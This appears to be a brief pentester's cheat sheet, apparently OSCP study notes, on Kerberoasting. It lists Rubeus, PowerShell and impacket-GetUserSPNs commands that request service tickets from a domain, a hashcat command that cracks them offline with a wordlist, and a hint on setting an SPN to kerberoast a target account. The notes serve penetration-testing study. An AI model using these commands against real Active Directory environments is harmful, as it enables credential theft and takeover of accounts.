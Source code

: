 # KERBEROASTING
#rubeus 
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

#powershell 
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQL/MS02.oscp.exam"
```

#crack 
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#impacket-GetUserSPNs
```
sudo impacket-GetUserSPNs -request -dc-ip [ip] [domain]/[user]

If we get the error "KRB_AP_ERR_SKEW(Clock skew too great), use: ntpdate [server]" 
```

#targeted_kerberoasting
```
with GenericWrite or GenericAll set an SPN then kerberoast
```
